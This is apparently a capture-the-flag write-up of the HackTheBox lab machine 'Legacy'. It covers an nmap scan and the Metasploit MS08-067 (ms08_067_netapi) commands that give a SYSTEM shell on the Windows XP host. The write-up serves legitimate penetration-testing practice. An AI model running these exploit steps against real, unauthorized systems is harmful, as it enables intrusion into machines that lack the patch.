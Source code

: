 ```yaml
---
layout: post
title:  "HackTheBox - Legacy Writeup"
categories: [HackTheBox]
tags: [pentesting]
draft: false
---
```


# Introduction

This is a writeup for the machine "Legacy" (10.10.10.4) on the platform HackTheBox. HackTheBox is a pentetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

The first thing we're going to do is run an NMAP scan using the following command `nmap -sV -sC -Pn -oX /tmp/webmap/legacy.xml 10.10.10.4` if you're wondering about the last flag `-oX` that is allowing me to output the report into an XML format, this is because I use webmap (as you can see in the /tmp/webmap) which is an awesome tool that allows me some visual aids for a box/network!

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Legacy$ nmap -sC -sV -Pn -oX /tmp/webmap/legacy.xml 10.10.10.4

Starting Nmap 7.60 ( https://nmap.org ) at 2019-01-28 17:13 GMT
Nmap scan report for 10.10.10.4
Host is up (0.028s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d01h57m38s, deviation: 0s, median: 5d01h57m38s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:65:4d (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-02-02T21:11:16+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

As you can see in the above scan, it looks like we're rrunning Windows XP, as you will know, this is a very old OS so it is likely there are going to be some CVEs which are unpatched, very easy to explokt & very powerful. We know that SMB is running so let us do some google-fu for a SMB Windows XP vulnerability.

### SMB

As we mentioned, we know SMB is running and we're on Windows XP so it is highly likely there is a vulnerability we can exploit for the foothold here. The first thing that I searched was "windows xp smb exploit" and the very first result was CVE2008-4250 & a MSF module that we can use to exploit this. I did some basic research on this vulnerability as I wanted to exploit it manually for my own benefit however, it is a lot harder to exploit manually than I expected with a lot of steps/things that had to be done, so for the sake of this being a 20 point box I just used the Metasploit module.

## Exploitation

So, let's load MSF using `msfconsole` once it loads we need to use `msf5 > use exploit/windows/smb/ms08_067_netapi ` to select the exploit, that is the MS number however as mentioned earlier the CVE is CVE2008-4250. Once we've selected the exploit we now need to set the remote host, we can do this using `set RHOST 10.10.10.4` and that will set the host. That is all we need to configure, now you just need to run the exploit and we'll get a shell.

It is worth noting that this might not work without setting the target, in that case, we know that it is Windows XP but we don't know the service pack however, we can take a pretty good guess it is the English pack SP2 or SP3. You can use `show targets` to find a list of all the service packs, etc.

```
msf5 exploit(windows/smb/ms08_067_netapi) > set TARGET 7
TARGET => 7
msf5 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   7   Windows XP SP3 English (NX)


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOST 10.10.10.4
RHOST => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > run
```

Once you run this you're going to get thrown into the `system32` folder as NT_Authority. That basically means, no privilege escalation is going to be required for us now, all we need to do is go and get the user & root flag. That is it!

Thanks for reading another writeup, more coming soon! 